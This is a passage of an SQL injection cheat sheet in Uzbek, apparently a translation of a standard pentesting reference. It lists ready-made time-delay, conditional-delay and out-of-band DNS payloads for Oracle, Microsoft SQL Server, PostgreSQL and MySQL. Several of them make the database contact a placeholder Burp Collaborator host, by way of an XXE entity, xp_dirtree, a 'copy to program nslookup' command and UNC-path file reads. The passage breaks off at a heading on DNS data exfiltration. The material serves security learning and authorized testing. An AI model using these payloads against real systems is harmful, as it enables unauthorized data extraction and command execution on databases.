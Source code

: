 **Eslatma**

MySQL bilan, odatda SQL ineksiya uchun foydalanib bo'lmaydi. Biroq, target dastur MySQL ma'lumotlar bazasi bilan muloqot qilish uchun ma'lum bir PHP yoki Python Apisni ishlatsa, vaqti-vaqti bilan mumkin.

### <mark style="color:yellow;">Time delaylar</mark> <a href="#time-delays" id="time-delays"></a>

Siz ma'lumotlar bazasida so'rov qayta ishlanganda vaqtni kechiktirishingiz mumkin. Quyidagilar 10 soniya davomida vaqtni kechiktirishga olib keladi

| Oracle     | `dbms_pipe.receive_message(('a'),10)` |
| ---------- | ------------------------------------- |
| Microsoft  | `WAITFOR DELAY '0:0:10'`              |
| PostgreSQL | `SELECT pg_sleep(10)`                 |
| MySQL      | `SELECT sleep(10)`                    |

### <mark style="color:yellow;">Conditional time delays (Shartli vaqt kechiktirishlar)</mark> <a href="#conditional-time-delays" id="conditional-time-delays"></a>

Siz bitta Booley holatini sinab ko'rishingiz mumkin va agar shart to'g'ri bo'lsa, vaqtni kechiktirishni boshlang.

| Oracle     | `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 'a'\|\|dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual` |
| ---------- | ---------------------------------------------------------------------------------------------------------------- |
| Microsoft  | `IF (YOUR-CONDITION-HERE) WAITFOR DELAY '0:0:10'`                                                                |
| PostgreSQL | `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END`                                  |
| MySQL      | `SELECT IF(YOUR-CONDITION-HERE,sleep(10),'a')`                                                                   |

### <mark style="color:yellow;">DNS lookup</mark> <a href="#dns-lookup" id="dns-lookup"></a>

Siz ma'lumotlar bazasi orqali tashqi domenlarni aniqlash uchun DNS qidiruvini amalga oshirishingiz mumkin. Buning uchun, hujumda foydalanadigan Burp Collaborator subdomainini yaratib beruvchi Burp-Collabratordan foydalanishingiz kerak.shunda DNS qidiruvi sodir bo'lganligini aniqlay olasiz.

| Oracle     | <p>Quyidagi usul DNS qidiruvini boshlash uchun (XXE) XML usullainir ishlatadi. Bu zaiflik allaqachon patch qilingan ammo bir nechta Oracle databaselarda mavjud:<br><code>SELECT extractvalue(xmltype('&#x3C;?xml version="1.0" encoding="UTF-8"?>&#x3C;!DOCTYPE root [ &#x3C;!ENTITY % remote SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual</code><br><br>Quyidagi usullar to'liq patch qilingan Oracle databaselari uchun ishlaydi, ammo yuqori privilegiyani talab qiladi.<br><code>SELECT UTL_INADDR.get_host_address('BURP-COLLABORATOR-SUBDOMAIN')</code></p> |
| ---------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ |
| Microsoft  | `exec master..xp_dirtree '//BURP-COLLABORATOR-SUBDOMAIN/a'`                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                      |
| PostgreSQL | `copy (SELECT '') to program 'nslookup BURP-COLLABORATOR-SUBDOMAIN'`                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                             |
| MySQL      | <p><strong>Bu usul faqat Windowsda ishlaydi.</strong><br><code>LOAD_FILE('\\\\BURP-COLLABORATOR-SUBDOMAIN\\a')</code><br><code>SELECT ... INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a'</code></p>                                                                                                                                                                                                                                                                                                                                                                                            |

### <mark style="color:yellow;">Ma'lumot eksfiltratsiyasi bilan DNS qidiruvi</mark> <a href="#dns-lookup-with-data-exfiltration" id="dns-lookup-with-data-exfiltration"></a>
